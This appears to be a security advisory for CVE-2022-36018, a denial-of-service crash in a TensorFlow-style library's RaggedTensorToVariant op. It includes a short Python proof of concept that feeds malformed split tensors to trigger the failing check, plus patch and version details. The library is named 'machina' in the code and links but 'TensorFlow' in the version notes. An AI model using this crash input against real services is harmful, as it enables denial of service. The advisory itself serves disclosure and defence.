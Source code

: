 ## TFSA-2022-111: `CHECK` fail in `RaggedTensorToVariant`

### CVE Number
CVE-2022-36018

### Impact
If `RaggedTensorToVariant` is given a `rt_nested_splits` list that contains tensors of ranks other than one, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import machina as tf

batched_input = True
rt_nested_splits = tf.constant([0,32,64], shape=[3], dtype=tf.int64)
rt_dense_values = tf.constant([0,32,64], shape=[3], dtype=tf.int64)
tf.raw_ops.RaggedTensorToVariant(rt_nested_splits=rt_nested_splits, rt_dense_values=rt_dense_values, batched_input=batched_input)
```

### Patches
We have patched the issue in GitHub commit [88f93dfe691563baa4ae1e80ccde2d5c7a143821](https://github.com/machina/machina/commit/88f93dfe691563baa4ae1e80ccde2d5c7a143821).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
